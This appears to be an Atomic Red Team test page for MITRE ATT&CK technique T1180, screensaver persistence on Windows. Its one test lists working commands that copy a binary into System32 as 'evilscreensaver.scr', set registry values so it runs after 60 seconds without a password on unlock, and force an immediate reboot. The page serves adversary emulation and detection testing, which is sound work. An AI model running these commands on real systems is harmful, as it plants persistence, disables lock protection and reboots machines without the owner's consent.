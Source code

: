 # T1180 - Screensaver
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1180)
<blockquote>Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code> on 64-bit Windows systems, along with screensavers included with base Windows installations. 

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaverTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity. (Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:\Windows\System32\cmd.exe|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```



<br/>
